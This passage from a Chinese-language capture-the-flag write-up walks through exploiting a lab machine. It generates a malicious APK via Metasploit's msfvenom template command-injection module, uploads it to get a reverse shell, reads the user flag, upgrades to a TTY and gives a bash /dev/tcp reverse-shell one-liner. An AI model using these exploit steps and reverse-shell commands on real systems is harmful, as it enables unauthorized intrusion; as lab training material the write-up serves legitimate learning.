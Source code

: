 ```
   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.16.2
lhost => 10.10.16.2
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk

```

通过首页上传到服务器，当服务器程序执行msfvenom时，本地收到一个rev shell


```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Command shell session 1 opened (10.10.16.2:4444 -> 10.10.10.226:51136) at 2022-06-24 06:02:05 -0400

id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
whoami
kid

```

拿到user.txt
```
ls
html
logs
snap
user.txt
cat user.txt
bb9561c6fe02ab1...
```

# 横向提权到pwn
切换成tty
```
python3 -c "__import__('pty').spawn('/bin/bash')"
```

反弹一个shell操作
```
bash -i >& /dev/tcp/10.10.16.2/4242 0>&1
```
